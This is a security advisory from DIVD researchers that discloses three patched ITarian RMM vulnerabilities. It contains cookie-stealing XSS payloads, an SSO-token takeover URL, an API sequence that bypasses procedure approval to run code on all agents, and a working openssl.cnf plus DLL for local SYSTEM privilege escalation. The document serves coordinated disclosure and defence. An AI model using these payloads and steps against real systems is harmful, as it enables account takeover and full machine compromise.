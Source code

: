 ```yaml
---
layout: post
title: Itarian Full disclosure
author: Hidde Smit
researchers: 
    - Wietse Boonstra
    - Hidde Smit
excerpt: "Full disclosure of vulnerabilities discovered in Itarian products"
---
```

DIVD researchers, Hidde Smit and Wietse Boonstra, have discovered multiple vulnerabilities. Vulnerabilities in the following products have been found:
- ITarian SaaS platform
- ITarian on-premise (version 6.35.37347.20040)
- Endpoint Manager Communication Client (version 6.43.41148.21120)

ITarian is a Remote Monitoring and Management (RMM) software suite. It allows administrators to manage endpoints. Because of this powerful position within an organisation, RMM suites are often targeted by malicious actors.

Making initial contact with ITarian proved to be difficult. The vulnerabilities were discovered in December 2021. However, contact and subsequent fixes only started rolling out in May 2022.

DIVD has recently become an CVE Numbering Authority (CNA) and has used these rights to create the following CVE’s assigned to the vulnerabilities included in the write-up below:
- {% cve CVE-2022-25151 %}
- {% cve CVE-2022-25152 %}
- {% cve CVE-2022-25153 %}

The rest of this post contains the full technical write-up of the vulnerabilities. These vulnerabilities have been patched and no longer work on the latest version of ITarian software.

## Cross-Site Scripting in ITarian SaaS Service Desk module (ITarian SaaS platform)

- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform
- Reference: Case {% divd DIVD-2021-00037 %}

In order to exploit this Cross-Site Scripting (XSS) vulnerability, the victim needs to enable the Service Desk module, which is not enabled by default. The vulnerability can be exploited by visiting the victim's Support Ticket System page as shown in the screenshot below.


![Screenshot of XSS payload in a support ticket](/img/DIVD-2021-00037/CVE-2022-25151-01.png)

There are two XSS vulnerabilities. One is present in the Email Address field and the other in the Full Name field.

The payload for Email Address is: `"<script>alert(document.cookie)</script>"@something.somewhere`

The payload for Full Name is: `<script>alert(document.cookie)</script>`

The Email Address payload triggers once an ITarian MSP user has opened the ticket contents as shown in the screenshot below, the ticket might also trigger if the user hovers over the ticket to preview the content.

![Screenshot of XSS triggered in service desk module](/img/DIVD-2021-00037/CVE-2022-25151-02.png)

Using this exploit technique, it is possible to steal the `OSTSESSID` cookie and gain access to the ticketing system of the victim by visiting the direct URL, in this case: `https://{CUSTOMER_URL}.servicedesk.comodo.com/scp/tickets.php`

The cookie `token` can also be stolen, which is actually a SSO-token granting full access to the MSP dashboard without any credentials needed. This can be done by stealing the `token` cookie through XSS as demonstrated above and placing it in the MSP URL as shown below:
`https://{CUSTOMER_URL}.cmdm.comodo.com/?sso-token={token}`


## Session cookie not protected by HttpOnly flag (ITarian SaaS platform / on-premise) - CVE-2022-25151

- CVE: {% cve CVE-2022-25151 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.5
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25151 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

Being able to steal cookies exploiting XSS, is caused by the lack of HttpOnly. Both on-premise and SaaS platforms do not implement the HttpOnly flag on session cookies. Setting HttpOnly stops JavaScript from being able to access the cookie and as such mitigates XSS attacks which are trying to steal session cookies, as demonstrated with the XSS vulnerability.

## Creation of procedure and bypass approval (ITarian SaaS platform / on-premise) - CVE-2022-25152

- CVE: {% cve CVE-2022-25152 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 9.9
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25152 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

If a malicious actor gains access to the Token session cookie, he can create a procedure, bypass approval and run the procedure. Resulting in all agents running arbitrary code as SYSTEM, which could for example be used during ransomware deployment. 

The Token session cookie can be retrieved by abusing the XSS vulnerability in the Service Desk module.

Creating and bypassing approval consists of multiple steps. The vulnerability is easily exploited by calling the following three API endpoints in the following order:
1. /procedure/windows/create
2. /procedure/windows/update/id/<id>
3. /procedure/run/device-all

The first API call is used to create a procedure, the second is used to add arbitrary Python code and the last API call bypasses approval and pushes the procedure to all devices. These three steps have been automated in a Python POC which can be found [here](https://github.com/DIVD-NL/Itarian-2021-00037/blob/main/POC/CVE-2022-25152-POC.py)

## Endpoint Manager agent local privilege escalation (Endpoint Manager Communication Client) - CVE-2022-25153

- CVE: {% cve CVE-2022-25153 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/people/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/people/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.8
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25153 %}
- Solution: Make sure Endpoint Manager agent is the latest version, if not download and install the latest agent.

If a malicious actor gains low privilege access to a system where ITarian Endpoint Manager Communication Client has been installed, he will be able to escalate his privileges to SYSTEM. Gaining full access over the system by exploiting the ITarian client.

Systems that have an ITarian client installed run their processes under SYSTEM rights, as shown in the screenshot below.

![Services running as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-01.png)

`RmmService.exe` and `ITSMService.exe` do an `openssl.cnf` lookup in a folder which does not exist. A malicious user on a system with ITarian agent installed can escalate his privileges from user to SYSTEM by crafting a malicious `openssl.cnf` in the folder shown in the screenshot.

![Openssl.cnf lookup](/img/DIVD-2021-00037/CVE-2022-25153-02.png)

The steps below demonstrate running privileged commands.

Create the folder: `C:\Work\vcpkg\packages\openssl-windows_x86-windows-static-md`

Create an `opsenssl.cnf` in the newly created folder with the following content:

```
openssl_conf = openssl_init
[openssl_init]
engines = engine_section
[engine_section]
cmd = cmd_section
[cmd_section]
engine_id = cmd
dynamic_path = c:\\Work\\vcpkg\\packages\\openssl-windows_x86-windows-static-md\\whoami.dll
init = 0
```

Compile a `whoami.dll` with the following content:

```
#include "pch.h"
#include <stdlib.h>
#include <windows.h>
  
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("C:\\windows\\SysWOW64\\cmd.exe /c whoami > C:\\windows\\tasks\\whoami.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

Place both `whoami.dll` and `openssl.conf` in the folder. Restart the system or wait for the `openssl.cnf` lookup to trigger. After triggering a `whoami.txt` will be placed in `C:\windows\tasks`

![Remote code execution as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-03.png)

This can of course, be any arbitrary code, for example, a reverse shell with SYSTEM rights.
